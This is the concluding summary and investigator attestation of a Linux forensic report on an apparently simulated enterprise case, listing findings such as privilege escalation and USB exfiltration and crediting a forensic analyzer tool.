The forensic investigation into Case `CASE-ENTERPRISE-SIM` successfully confirmed unauthorized external access, administrative privilege escalation, multi-vector persistence, physical USB data exfiltration, and deliberate anti-forensic tampering. By leveraging the **Linux Forensic Analyzer (LFA)**, all 62,117 events were ingested, normalized, and correlated deterministically without altering original evidence, providing defensible and reproducible findings.

**Investigator Attestation:**  
I hereby attest that the evidence collection, timeline reconstruction, and forensic analysis detailed in this report were performed in accordance with RFC 3227 digital evidence standards, and that all artifact hashes have been cryptographically verified.

**Fahad**  
Lead Forensic Investigator  
*Case Reference: `CASE-ENTERPRISE-SIM`*

